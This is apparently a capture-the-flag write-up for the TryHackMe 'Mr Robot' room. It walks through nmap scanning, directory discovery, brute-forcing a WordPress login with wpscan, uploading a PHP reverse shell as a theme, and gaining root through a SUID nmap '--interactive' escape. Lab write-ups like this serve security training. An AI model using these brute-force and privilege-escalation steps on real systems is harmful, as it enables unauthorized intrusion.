



# Writeup for Mr Robot room on TryHackMe.
URL = https://tryhackme.com/mrrobot
Based on the Mr. Robot show, can you root this box?

Enumeration: -
Lets run quick nmap scan.
```bash
sudo nmap -A <ip>
```
This returned 2 open ports.
port      |service
----------|----------
22        |SSH
80        |Web server
443       |Web server (HTTPS)

Let's enumerate port 80.
Hmm... Interesting page. Let's check /robots.txt.



So, we found the first key. Also, we got some wordlist.

Lets directory burst.

```
dirsearch -u url -e php,txt,html -x 400,401,403 -w wordlist
```

Found /wp-admin/ page which redirects to login.
We can try to bruteforce username/password using that but since this is Mr Robot box let's guess the username and try Elliot. 



Bingo! Wordpress says wrong password for username Elliot. Let's bruteforce password using the wordlist we got above but before that I noticed this contains so many words and duplicates. Let's sort it out using below commmand.

```
sort fsocity.dlc | uniq > fsocity-sorted.dlc
```

Now, lets bruteforce with sorted wordlist.

```
wpscan --url http://ip/ -U Elliot -P fsocity-sorted.dlc
```

And we found the password. Let's get shell by uploading php shell as theme. If you don't what this is do wordpress theme exploit reverse shell search on Google.

And we got daemon user.

Run linpeas and you'll see nmap is running as suid. 


Let's exploit it to get root.

```
/usr/local/bin/nmap --interactive
!sh
```



